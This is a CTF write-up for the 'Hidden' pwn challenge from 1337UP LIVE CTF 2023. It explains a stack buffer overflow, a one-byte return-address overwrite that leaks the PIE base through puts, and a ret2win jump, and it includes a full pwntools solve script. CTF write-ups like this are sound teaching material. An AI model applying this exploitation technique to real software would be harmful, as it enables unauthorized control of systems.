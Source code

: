 # Hidden

|||
|-|-|
|  **CTF**  |  [1337UP LIVE CTF 2023](https://ctf.intigriti.io/) [(CTFtime)](https://ctftime.org/event/2134)  |
|  **Author** |  0xM4hm0ud |
|  **Category** |  Pwn |
|  **Solves** |  111  |
|  **Difficulty** |  Easy |
| **Files** |  [hidden.zip](<hidden.zip>)  |

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/1a85f302-49e4-48ba-b6e6-7b488aa56859)

# Solution

When unzipping we get a binary. Lets check the protections:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/50934b5f-e248-4d9a-9453-6f4af77bbe2a)

So all protections enabled. 
We can check the main function and see that it calls the `input` function:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/07913157-30a6-4716-9397-bf63e7ff8673)

When we check the `input` function we see that there is no canary in this function. There is also a buffer overflow vulnerability. We can read 0x50 bytes into a buffer on the stack with a smaller size:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/8bec674e-bfe0-45ab-9e44-de65cca54736)

There is also a win function called `_`:

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/577f284c-a78b-47f8-9310-84476b68c2c2)

So we can just overflow and jump to the win function, but because of PIE that is enabled we can't do this.
We need to leak. If we check close at the `input()` we can see that after the read call it prints our input with `puts`.
Puts reads till it find a null byte and because we have an overflow we can fill the entire buffer till the return address and leak the return address. 
But we also need to jump back so we need to overwrite the lsb of the return address(last 3 nibbels stays the same):

![image](https://github.com/0xM4hm0ud/MyCTFChallenges/assets/80924519/f6fe1e7b-0f2d-4faf-a0cb-a6b086314466)

So when we jumped back to main with the leak we know the address of the win function. We then can do a normal ret2win to get the flag.

> solve.py
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './chall'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
#context(terminal=['tmux', 'split-window', '-h'])

io = start()

payload = flat (
    b'A' * 72,
    p8(0x1a)
    )

io.sendafter(b':\n', payload)

io.recvuntil(b'A' * 72)
leak = u64(io.recvline()[:-1].ljust(8, b'\x00'))
elf.address = leak - 0x131a

log.success("Main address: %#x", leak)
log.success("Binary base: %#x", elf.address)

payload = flat (
    b'A' * 72,
    p64(elf.sym._)
    )

io.sendafter(b':\n', payload)
io.interactive()
```
 

